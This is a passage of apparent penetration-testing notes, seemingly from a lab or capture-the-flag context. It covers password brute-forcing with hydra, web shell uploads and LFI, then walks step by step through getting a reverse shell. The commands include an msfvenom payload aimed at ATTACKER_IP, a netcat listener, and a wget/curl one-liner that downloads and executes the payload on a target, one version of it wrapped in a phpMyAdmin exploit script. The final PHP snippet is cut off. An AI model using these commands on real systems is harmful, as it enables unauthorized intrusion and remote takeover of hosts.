 **Scenario C: Basic Authentication**

1. If a directory requires HTTP Basic Authentication (e.g., found via `dirb`).
2. Identify potential usernames (e.g., `admin`).
3. Use `hydra` to brute-force the password (specific syntax not provided in notes).
4. If credentials (`<USERNAME>:<PASSWORD>`) are found, access the protected area. You might find file uploads or other vulnerabilities. Use credentials with `dirb` for further scans: `dirb http://<TARGET_IP>/protected_dir/ -u <USERNAME>:<PASSWORD>`. Proceed based on findings.

**Scenario D: General File Upload / LFI / RCE**

1. If a file upload feature is found, attempt to upload a web shell (e.g., PHP shell).
2. If Local File Inclusion (LFI) is found, try reading sensitive files or potentially combining it with other vulns for code execution.
3. If any other mechanism provides command execution, use it for Phase 4.

### Phase 4: Establishing Reverse Shell (via Command Execution)

This common technique ("CMD Shell") uses existing command execution to get a reverse shell connecting back to your machine.

1. **Prepare Listener (Attacker - Terminal 1):**
    * Choose an unused port (e.g., 4444). Let's call this `<LISTENER_PORT>`.
    * Start a netcat listener: `nc -lvnp <LISTENER_PORT>`. Keep this running.
2. **Generate Payload (Attacker):**
    * Use `msfvenom` to create a stageless executable shell payload (works well with `nc`).
    * For Linux x64 target:
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<LISTENER_PORT> -f elf > shell.elf`. (Adjust `-p` for architecture (e.g., `linux/x86/...`) or OS if needed).
    * Note the output filename (e.g., `shell.elf`). Use a new name if repeating to avoid caching (`shell_v2.elf`).
3. **Serve Payload (Attacker - Terminal 2):**
    * Navigate to the directory where `shell.elf` was saved.
    * Start a simple web server: `python3 -m http.server 8000` (or another port, e.g., 8001). Note this server port (`<HTTP_PORT>`). Keep this running.
4. **Trigger Execution (Target - via vulnerability):**
    * Use your command execution vulnerability (from Phase 3) to make the target download, permit execution, and run the payload. A common writable location is `/tmp`.
    * Combined command string:
`cd /tmp; rm -f shell.elf; wget http://<ATTACKER_IP>:<HTTP_PORT>/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf`.
        * *Breakdown:* Change directory, remove old file (optional), download payload using `wget`, make it executable (`chmod +x` or `777`), run it.
        * *Alternatives:* If `wget` isn't available, try `curl -o shell.elf http://<ATTACKER_IP>:<HTTP_PORT>/shell.elf`. Ensure filename, attacker IP, and HTTP port match.
    * **Example using PHPMyAdmin exploit script:**
`python3 pma.py <TARGET_IP> 80 /phpmyadmin pma pmapass 'cd /tmp; rm -f shell.elf; wget http://<ATTACKER_IP>:<HTTP_PORT>/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf'`.
    * **Example using PHP `exec` (e.g., via WordPress theme edit):**

```php
:<HTTP_PORT>/shell.elf; chmod +x /tmp/shell.elf; /tmp/shell.elf"); ?>
```
